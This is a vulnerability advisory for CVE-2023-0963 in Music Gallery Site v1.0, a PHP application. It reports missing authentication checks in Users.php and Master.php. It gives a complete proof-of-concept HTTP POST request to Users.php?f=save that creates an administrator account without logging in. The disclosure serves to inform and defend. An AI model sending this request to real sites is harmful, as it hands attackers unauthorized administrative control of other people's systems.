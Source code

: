 # Music Gallery Site - Broken Access Control leads to compromise of complete application by adding admin user without log-in into the application.

### Date: 
> 21 February 2023

### CVE Assigned:
**[CVE-2023-0963](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0963)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0963) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0963)

### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken Access Control is a type of security vulnerability that occurs when a web application fails to properly restrict users' access to certain resources and functionality. Access control is the process of ensuring that users are authorized to access only the resources and functionality that they are supposed to. Broken Access Control can occur due to poor implementation of access controls in the application, failure to validate input, or insufficient testing and review.

### Vulnerable URLs:
> /php-music/classes/Users.php

>/php-music/classes/Master.php

### Affected Page:
> Users.php , Master.php
> On these page, application isn't verifying the authenticated mechanism. Due to that, all the parameters are vulnerable to broken access control and any remote attacker could create and update the data into the application. Specifically, Users.php could allow to remote attacker to create a admin user without log-in to the application.
### Description:
> Broken access control allows any remote attacker to create, update and delete the data of the application. Specifically, adding the admin users
### Proof of Concept:
> Following steps are involved:
1. Send a POST request with required parameter to Users.php?f=save (See Below Request)

2. Request:
```
POST /php-music/classes/Users.php?f=save HTTP/1.1
Host: localhost
Content-Length: 876
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjwBNagY7zt6cjYHp
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/php-music/admin/?page=user/manage_user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="firstname"

Test
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="middlename"

Admin
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="lastname"

Check
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="username"

testadmin
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="password"

test123
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryjwBNagY7zt6cjYHp--

```

3. It will create the user by defining the valid values (see below screenshot of successfull response), Successful exploit screenshots are below (without cookie parameter)

![image](https://user-images.githubusercontent.com/123810418/220352229-389dfaf8-57e0-470d-b8a5-c873a13b3b51.png)

![image](https://user-images.githubusercontent.com/123810418/220352493-ef35a8ba-c613-4745-9004-0159b3841951.png)

4. Vulnerable Code Snippets:

Users.php

![image](https://user-images.githubusercontent.com/123810418/220353008-b1448508-7451-412a-a5eb-049aa20b3d41.png)

Master.php

![image](https://user-images.githubusercontent.com/123810418/220353132-1067a86c-282d-4fc5-8733-ceab4b1fef56.png)


### Recommendation:
> Whoever uses this CMS, should update the authorization mechanism on top of the  Users.php , Master.php pages as per requirement to avoid a Broken Access Control attack:
